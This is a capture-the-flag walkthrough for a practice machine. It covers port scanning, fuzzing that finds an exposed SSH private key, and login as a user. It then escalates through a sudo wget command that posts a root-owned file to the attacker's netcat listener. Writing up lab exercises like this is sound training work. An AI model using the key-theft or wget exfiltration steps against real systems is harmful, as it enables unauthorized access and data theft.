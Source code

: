 A very easy CTF lab with exploiting Wget to get the root flag.

Machine Enumeration:

```
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ sudo nmap -sS 10.10.188.207 > open_ports.txt
[sudo] password for kali: 
                                                                   
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ cat open_ports.txt 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-13 21:29 IST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 21:29 (0:00:00 remaining)
Nmap scan report for 10.10.188.207
Host is up (0.43s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.12 seconds
```

```
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ sudo nmap -sS -sV -sC -O -Pn -p22,80 10.10.188.207 > ports_scan.txt
                                                                                                                                                 
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ cat ports_scan.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-13 21:30 IST
Nmap scan report for 10.10.188.207
Host is up (0.44s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Linux 3.10 (93%), Linux 3.12 (93%), Linux 3.18 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.63 seconds
```

SSH and HTTP. Visiting the IP will load the default Apache page, as the title states, `Apache2 Ubuntu Default Page: It works`

Fuzzing the site using Ffuf, we get a subdirectory named sitemap:
```
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ ffuf -u http://10.10.188.207/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.188.207/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 452ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 452ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 431ms]
sitemap                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 442ms]
:: Progress: [20476/20476] :: Job [1/1] :: 90 req/sec :: Duration: [0:03:47] :: Errors: 0 ::
```

<img src=https://github.com/user-attachments/assets/2771b28c-8e9d-4b35-92cc-4d7a58d768d4>

Again fuzzing this page for more directories:

```
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ ffuf -u http://10.10.188.207/sitemap/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.188.207/sitemap/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 450ms]
.ssh                    [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 451ms]
...
```

Seeing `.ssh`, I guessed I would get the id_rsa file, which I do get from the sub-directory. So, I started looking for a username. Started looking at the source code. In the Apache webpage, I got the username
Jessie

<img src=https://github.com/user-attachments/assets/02cc6988-561a-4913-ae00-62269a081bb6>


<img src=https://github.com/user-attachments/assets/2bc7a80e-5e67-4c7b-ac6c-724195e47457>


```
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ nano id_rsa                     
                                                                                                                                                 
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ chmod 600 id_rsa                                                      
                                                                                                                                                 
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ ssh -i id_rsa jessie@10.10.188.207
The authenticity of host '10.10.188.207 (10.10.188.207)' can't be established.
ED25519 key fingerprint is SHA256:6fAPL8SGCIuyS5qsSf25mG+DUJBUYp4syoBloBpgHfc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.188.207' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$
```

Now is the time for privilege escalation:

```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

I went to GTFOBins to learn how to do priv esca from WGET with SUDO permissions, but it didn't work. Then I searched on net how to do this and I got this:

<img src=https://github.com/user-attachments/assets/62d30a22-8ab6-440a-a741-4c8d90211841>

This was also there in GTFOBins, under the `File Upload` section

```
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.4.101.169
--2024-10-13 19:23:02--  http://10.4.101.169/
Connecting to 10.4.101.169:80... connected.
HTTP request sent, awaiting response...
```

Opening NetCat listener at port 80 on my machine:

```
┌──(kali㉿kali)-[~/Desktop/THM/WgelCTF]
└─$ nc -nlvp 80             
listening on [any] 80 ...
connect to [10.4.101.169] from (UNKNOWN) [10.10.188.207] 53036
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.4.101.169
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

<flag>
```
